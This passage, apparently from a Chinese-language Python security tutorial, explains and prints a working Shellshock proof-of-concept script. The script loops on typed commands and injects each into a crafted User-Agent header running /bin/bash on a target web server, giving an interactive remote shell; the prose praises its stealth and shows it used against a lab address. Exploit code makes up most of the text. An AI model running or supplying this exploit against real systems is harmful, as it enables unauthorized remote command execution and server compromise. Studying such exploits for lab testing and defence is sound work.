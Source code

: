 下面这段Python写的Poc的代码非常的酷(屌哒哒),用户根本感觉不到发生了什么事情.
这个Poc执行后就和系统的命令终端一样,不过这个Poc它的目的却与系统的不同.这个Poc会修改浏览器的User-Agent
信息,然后不停的向攻击主机发送一个恶意的指令(这里是执行某个特定的命令).

下面这段代码封装了一个无限循环,通过raw_input获取用户输入的终止标记，最后提交请求,从下面的这段代码你可以看到
如何去完成一个HTTP请求以及如何修改User-Agent的内容：

```
#!/usr/bin/python
import sys, urllib2    #导入需要使用的模块
 
if len(sys.argv) != 2:    # 检查输入命令的格式是否正确 "<script> <URL>"
  print "Usage: "+sys.argv[0]+" <URL>"
  sys.exit(0)
 
URL=sys.argv[1]        # 把测试的URL输出显示出来
print "[+] Attempting Shell_Shock - Make sure to type full path"
 
while True:        # 通过raw_input来获取用户输入的值,如果是"~$"就停止执行 
  command=raw_input("~$ ")
  opener=urllib2.build_opener()        # 修改默认的请求头部,把修改后的User-Agent包含进去
  opener.addheaders=[('User-agent', '() { foo;}; echo Content-Type: text/plain ; echo ' /bin/bash -c "'+command+'"')]
  try:                    # 使用Try/Except 进行错误处理
    response=opener.open(URL)    #提交请求并且显示响应结果
    for line in response.readlines():
      print line.strip()
  except Exception as e: print e
```
下面的图片是这个脚本执行后的截图,正在测试ip地址为http://192.168.56.101
的系统,你可以很清晰的看到执行之后会生成一个和真实命令终端几乎是一样的．
大家其实可以看到这个脚本只是对测试系统发送了一个HTTP请求.其他的什么也没有
做.不过最后一张图展示了具体的细节部分:

![shell1][1]

![shell2][2]

[1]: zh-cn/img/0x131.png
[2]: https://github.com/smartFlash/pySecurity/blob/master/zh-cn/img/0x132.png